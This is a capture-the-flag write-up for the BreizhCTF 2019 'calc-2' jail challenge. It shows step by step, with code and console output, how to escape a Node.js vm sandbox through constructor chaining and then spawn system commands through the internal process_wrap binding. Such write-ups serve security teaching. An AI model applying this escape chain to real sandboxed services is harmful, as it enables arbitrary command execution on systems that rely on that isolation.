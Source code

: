 ```yaml
---
title: BreizhCTF 2019 - calc-2
authors: dabi0ne
layout: writeup
ctf_url: https://www.breizhctf.com/
---
```

Solves: 0 / Points: ?? / Category: Jail

## Challenge description 
See challenge source code [here](/assets/calc2.js)

## Challenge resolution
Our goal is to execute a system command to obtain the flag.

### Step one : Escape from the vm
To escape from the vm we will use constructor of constructor to create an anonymous function with controlled body.

This is a simple example using Firefox JS console :
```js
>> this.constructor.constructor("alert(1)")
function anonymous()
>> this.constructor.constructor("alert(1)").toString()
"function anonymous(
) {
alert(1)
}"
```

Using this technique we can execute code outside vm context.
Indeed, the this object when it returned by calling constructor is not restricted to log function :
```js
>> log(this.constructor.constructor('return this')());
> EOF
[Function: anonymous]
Object [global] {
  global: [Circular],
  process:
   process {
     title: 'nodejs',
     version: 'v10.15.2',
.
.
.
  setImmediate:
   { [Function: setImmediate] [Symbol(util.promisify.custom)]: [Function] },
  setInterval: [Function: setInterval],
  setTimeout:
   { [Function: setTimeout] [Symbol(util.promisify.custom)]: [Function] } }
```

Comparing to the vm context :
```js
> log(this);
> EOF
{ log: [Function] }
```


### Step two : Execute a shell command

The process.mainModule of the script was cleaned so we didn't have access to "require" function :
```js
/* remove mainModule for better security */
process.mainModule = {};
```

However, we identified that the binding function is available on the object returned by the constructor :
```js
> log(this.proc = this.constructor.constructor('return this.process')());

binding: [Function: binding]
```
The binding function allow loading internal modules. 
Firstly we tried to read the flag from the file using the "fs" module :
```js
> log(this.constructor.constructor('return this.process.binding')()('fs')
```
Fail :( 

But we were able to list directories and identify flag's location :

```js
> log(this.constructor.constructor('return this.process.binding')()('fs').readdir('/home/guest', {}, "","", function (err, data) {data}));
```

After a tip from the challenge author : "you don't have child_process and it exec function, so write it"


So let's read nodejs source code on Github :

https://github.com/nodejs/node/blob/master/lib/internal/child_process.js

The outcome is that the child_process use an internal binding of process_wrap to execute commands by calling the spawn function : 

```js
const { Process } = internalBinding('process_wrap');

child.spawn({
    file: opts.file,
    args: opts.args,
    cwd: options.cwd,
    windowsHide: !!options.windowsHide,
    windowsVerbatimArguments: !!options.windowsVerbatimArguments,
    detached: !!options.detached,
    envPairs: opts.envPairs,
    stdio: options.stdio,
    uid: options.uid,
    gid: options.gid
});
```

Hence, we have to create a Process object and call it spawn function to execute system commands :

1 - Check if the binding doesn't fail : 
```js
> log(this.constructor.constructor('return this.process.binding')()('process_wrap'));
> EOF
{ Process: [Function: Process] }

```
2 - Instantiate a Process object :
```js
> log(this.proc_wrap = this.constructor.constructor('return this.process.binding')());
> log(this.Process = this.proc_wrap('process_wrap').Process);
> log(this.process = new Process());
```

3 - Call the spawn function with the good parameters :

```js
> log(this.env = this.constructor.constructor('return this.process.env')());
> log(this.mproc  = this.constructor.constructor('return this.process')());
> log(this.sot = this.constructor.constructor('return this.process.stdout')());
> log(this.sin = this.constructor.constructor('return this.process.stdin')());
> log(this.rc = process.spawn({file:'/home/guest/flag_reader',args:[],cwd:"/home/guest",windowsVerbatimArguments:false,detached:false,envPairs:this.env, stdio:[mproc.stdin, mproc.stdout, mproc.stderr]}));

> EOF

breizctf_flag{FORGOTTEN_FLAG}
```

